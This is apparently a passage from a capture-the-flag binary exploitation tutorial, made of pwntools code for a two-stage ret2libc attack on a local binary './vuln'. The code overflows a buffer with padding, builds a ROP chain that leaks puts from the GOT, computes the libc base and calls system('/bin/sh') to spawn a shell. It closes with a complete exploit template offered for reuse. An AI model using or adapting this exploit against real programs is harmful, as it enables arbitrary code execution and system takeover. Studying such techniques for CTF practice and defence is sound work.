 ```python
padding = b'A' * 40
rop = ROP(elf)
rop.puts(elf.got['puts'])  # leak puts@got
rop.main()                 # return to main for second stage

payload = padding + rop.chain()
```

#### Send Payload

```python
p = process(elf.path)
p.sendlineafter("Input:", payload)
p.recvline()

leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f"Leaked puts@GLIBC: {hex(leaked_puts)}")
```

#### Use Libc to Calculate Base

```python
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # or libc.so from CTF
libc.address = leaked_puts - libc.symbols['puts']
```

#### Second Stage: Get Shell

```python
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh')))
payload = b'A' * 40 + rop.chain()
p.sendline(payload)
p.interactive()
```

Here’s a pwntools template you can reuse:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
rop = ROP(elf)

padding = b'A' * 40

# Stage 1: Leak puts
rop.puts(elf.got['puts'])
rop.main()
payload = padding + rop.chain()

p = process()
p.sendlineafter(">", payload)

# Parse leak
leaked = u64(p.recvline().strip().ljust(8, b'\x00'))
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc.address = leaked - libc.symbols['puts']

# Stage 2: Call system("/bin/sh")
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh')))
payload = padding + rop.chain()
p.sendlineafter(">", payload)
p.interactive()
```
